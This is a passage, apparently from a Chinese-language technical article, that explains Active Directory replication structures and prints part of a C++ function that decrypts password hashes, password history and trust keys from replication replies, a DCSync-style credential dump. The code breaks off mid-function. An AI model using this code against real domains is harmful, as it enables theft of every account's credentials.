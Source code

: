 attrTyp 为属性标识。AttrVal 为此属性的值序列，其结构体为 ATTRVALBLOCK，声明如下。

```c++
 typedef struct {
   [range(0,10485760)] ULONG valCount;
   [size_is(valCount)] ATTRVAL* pAVal;
 } ATTRVALBLOCK;
```

pAVal 是包含属性值的数组，其结构为 ATTRVAL，声明如下。而 valCount 是 pAVal 数组中的项数。

```c++
 typedef struct {
   [range(0,26214400)] ULONG valLen;
   [size_is(valLen)] UCHAR* pVal;
 } ATTRVAL;
```

pVal 数组中包含了属性的值，而 valLen 表示 pVal 的大小。

响应消息 getChgReply 中的 PrefixTableSrc 和 pObjects 会一并传入自定义函数 ProcessGetNCChangesReply 中进行消息处理，该函数定义如下。

```c++
BOOL ProcessGetNCChangesReply(SCHEMA_PREFIX_TABLE* pPrefixTable, REPLENTINFLIST* pObjects)
{
	BOOL status = FALSE;
	LPCSTR ENCRYPTED_OIDS[] = {
		szOID_ANSI_unicodePwd, szOID_ANSI_ntPwdHistory, szOID_ANSI_dBCSPwd, szOID_ANSI_lmPwdHistory, szOID_ANSI_supplementalCredentials,
		szOID_ANSI_trustAuthIncoming, szOID_ANSI_trustAuthOutgoing,
		szOID_ANSI_currentValue
	};

	ATTRTYP SecretAttributes[ARRAYSIZE(ENCRYPTED_OIDS)];
	REPLENTINFLIST* pReplentinflist, * pNextReplentinflist = pObjects;
	DWORD i, j, k;
	
	for (i = 0; i < ARRAYSIZE(SecretAttributes); i++)
	{
		if (MakeAttid(pPrefixTable, ENCRYPTED_OIDS[i], &SecretAttributes[i], FALSE))
			status = TRUE;
		else
			wprintf(L"[-] MakeAttid for %S Failed.\n", ENCRYPTED_OIDS[i]);
	}

	while (pReplentinflist = pNextReplentinflist)
	{
		pNextReplentinflist = pReplentinflist->pNextEntInf;
		if (pReplentinflist->Entinf.AttrBlock.pAttr)
		{
			for (i = 0; i < pReplentinflist->Entinf.AttrBlock.attrCount; i++)
			{
				for (j = 0; j < ARRAYSIZE(SecretAttributes); j++)
				{
					if (SecretAttributes[j] == pReplentinflist->Entinf.AttrBlock.pAttr[i].attrTyp
						&& pReplentinflist->Entinf.AttrBlock.pAttr[i].AttrVal.pAVal)
					{
						for (k = 0; k < pReplentinflist->Entinf.AttrBlock.pAttr[i].AttrVal.valCount; k++)
						{
							if (pReplentinflist->Entinf.AttrBlock.pAttr[i].AttrVal.pAVal[k].pVal
								&& DecryptValuesIfNecessary(&pReplentinflist->Entinf.AttrBlock.pAttr[i].AttrVal.pAVal[k], NULL))
								status = TRUE;
						}
						break;
					}
```